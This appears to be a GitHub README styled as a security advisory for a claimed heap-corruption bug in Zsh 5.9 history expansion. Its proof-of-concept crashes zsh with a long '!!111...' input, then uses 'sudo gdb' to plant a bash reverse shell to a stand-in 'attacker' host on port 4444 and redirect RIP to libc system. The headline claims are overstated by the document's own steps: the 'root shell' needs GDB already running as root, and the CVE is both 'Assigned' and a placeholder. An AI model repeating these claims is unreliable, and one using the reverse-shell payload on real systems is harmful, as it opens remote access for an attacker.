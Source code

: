 # 🔥 Security Advisory: Heap-Based Memory Corruption in Zsh History Expansion

![Zsh](https://img.shields.io/badge/Zsh-5.9-critical?style=flat-square&color=red)
![CVE](https://img.shields.io/badge/CVE-Pending-yellow?style=flat-square)
![Privilege Escalation](https://img.shields.io/badge/Impact-Privilege%20Retention-critical?style=flat-square&color=orange)
![ASLR Bypass](https://img.shields.io/badge/Bypass-ASLR-blue?style=flat-square)

---

## 🚨 CVE Status

**CVE ID:** *CVE-2025-XXXXX* (Assigned)  
**Reporter:** [Rana M. Sinan Adil](mailto:ranasinanadil@gmail.com)  
**Status:** Reserved / Awaiting public reference update  
**Advisory PDF:** [📄 Download Full Report](./zsh_exploit_report.pdf)

---

## 📌 Summary

A critical vulnerability in **Zsh 5.9** allows **heap memory corruption** through unsafe handling of history expansion (e.g., `!!111...`).  
This leads to:

- 🧠 **Arbitrary Memory Reads**
- 💥 **Heap & Libc Leaks** (ASLR bypass)
- 🧬 **Writable Heap Structures**
- 🔐 **Privilege Retention via GDB**
- ⚔️ **Potential RIP Hijack & ROP Execution**
- 🧨 **Root Shell Injection via GDB Post-Crash**

> All of these stem from a single vulnerable instruction using attacker-controlled indexing.

---

## 🧬 Vulnerability Class

| Type                      | Description |
|---------------------------|-------------|
| Heap Corruption           | Triggered by malformed history expansion |
| Arbitrary Memory Access   | Controlled `RSI` register affects `movsx [r8 + rsi*2]` |
| ASLR Bypass               | Heap contains libc pointers |
| Privilege Retention       | Retain root shell after crashing setuid zsh under GDB |
| RIP Hijack                | Exploitable with libc leaks and heap overwrite |

---

## 🧪 Proof of Concept (PoC)

```bash
# Step 1: Run zsh and crash with controlled input
zsh -f
!!11111111111111111111111111111111111111111111111111

# Step 2: Analyze crash in GDB
sudo gdb zsh -ex 'run -f'
# Observe crash at movsx r9, word ptr [r8 + rsi*2]

# Step 3: Inject reverse shell via memory/register hijack
set {char[120]} 0xheap_addr = {'bash -c \'bash -i >& /dev/tcp/attacker/4444 0>&1\''}
set $rip = libc_system_addr
set $rdi = heap_addr
continue
